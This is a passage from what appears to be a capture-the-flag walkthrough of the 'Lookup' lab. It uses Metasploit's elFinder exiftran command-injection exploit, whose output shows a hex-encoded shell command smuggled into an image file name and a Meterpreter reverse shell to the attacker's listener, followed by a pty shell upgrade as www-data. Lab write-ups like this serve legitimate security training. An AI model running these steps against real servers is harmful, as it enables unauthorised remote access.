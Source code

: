 ```

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address
   LPORT  4444             yes       The listen port
```

Now, set the `LHOST` and `RHOST`:

```
set LHOST tun0
set RHOST files.lookup.thm
```

Next, run the exploit:

```
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > run
[*] Started reverse TCP handler on 10.17.14.127:4444 
[*] Uploading payload 'TRNyzgLuCE.jpg;echo 6370202e2e2f66696c65732f54524e797a674c7543452e6a70672a6563686f2a202e376d7246434f782e706870 |xxd -r -p |sh& #.jpg' (1975 bytes)
[*] Triggering vulnerability via image rotation ...
[*] Executing payload (/elFinder/php/.7mrFCOx.php) ...
[*] Sending stage (40004 bytes) to 10.10.80.211
[+] Deleted .7mrFCOx.php
[*] Meterpreter session 1 opened (10.17.14.127:4444 -> 10.10.80.211:35566) at 2025-01-05 18:11:50 +0530
c[*] No reply
[*] Removing uploaded file ...
[+] Deleted uploaded file

meterpreter > 
```

After gaining access, let’s get a shell:

```
shell
```

We now confirm that we’re operating as the `www-data` user:

```
whoami
```

```
www-data
```

We can escalate privileges by spawning a bash shell:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Now, confirm that we have `www-data` shell access:

```
www-data@lookup:/var/www/files.lookup.thm/public_html$ 
```
